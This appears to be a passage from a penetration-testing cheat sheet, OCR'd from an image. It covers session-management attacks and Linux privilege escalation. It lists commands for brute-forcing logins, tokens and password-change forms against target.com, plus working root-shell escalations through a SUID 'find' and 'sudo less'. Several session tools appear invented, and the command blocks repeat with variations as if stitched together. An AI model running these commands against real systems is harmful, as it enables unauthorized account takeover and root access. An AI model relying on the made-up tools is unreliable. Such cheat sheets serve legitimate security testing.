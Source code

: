 ### 5.3 Session Management Testing
    :- (Often manual or with Burp Sequencer. For a command line concept:)    
    
    :- Analyze session ID entropy
    session_analyzer --url https://target.com/login --cookies "PHPSESSID=abc" --check-entropy 
    
    :- Test for session fixation
    session_fixation_tester -u https://target.com/login --new-session-url https://target.com/afterlogin 

    :- Use Burp API for brute force
    burp-rest-api --config burp_config.json --intruder-payloads user_pass.txt --intruder-attack https://target.com/login 
    ------
    session-fuzz -u https://target.com/login -c cookies.txt -p params.txt
    session-bruteforcer -u https://target.com -t tokens.txt
    ------
    session-fuzz -u https://target.com/login -c cookies.txt -p /usr/share/seclists/Fuzzing/HTTP-Methods-and-More/HTTP-Methods.txt -m PUT,DELETE
    session-fuzz -u https://target.com/change_password -c session_cookie -d "old_password=test&new_password=FUZZ&confirm_password=FUZZ" -w /usr/share/seclists/Passwords/Common-Credentials/top-passwords.txt
    session-bruteforcer -u https://target.com/api/session -H "X-Session-Token: FUZZ" -t valid_tokens.txt -r "valid"
    ------
    session-fuzz -u https://target.com/login -c cookies.txt -p /usr/share/seclists/Fuzzing/HTTP-Methods-and-More/all.txt -m GET,POST,PUT,DELETE,OPTIONS,TRACE
    session-fuzz -u https://target.com/change_password -c session_cookie -d "current_password=FUZZ&new_password=newpass&confirm_password=newpass" -w /usr/share/seclists/Passwords/Common-Credentials/top-passwords.txt -rate 50
    session-bruteforcer -u https://target.com/api/session -H "Authorization: Bearer FUZZ" -t long_token_list.txt -r "valid" -threads 20

## 6. POST-EXPLOITATION


### 6.1 Privilege Escalation


#### 6.1.1 Linux Privilege Escalation
    :- Find SUID binaries:    find / -perm -u=s -type f 2>/dev/null

    :- Check GTFOBins for exploitation (Assume 'find' binary has SUID)    
    https://gtfobins.github.io/gtfobins/find/
    
    :- Exploit SUID find for root shell
    find . -exec /bin/sh -p \; -quit

    :- Check sudo permissions:    sudo -l

    :- Exploit sudo permission (Assume user can run 'less' as root)    
    https://gtfobins.github.io/gtfobins/less/
    sudo less /etc/profile
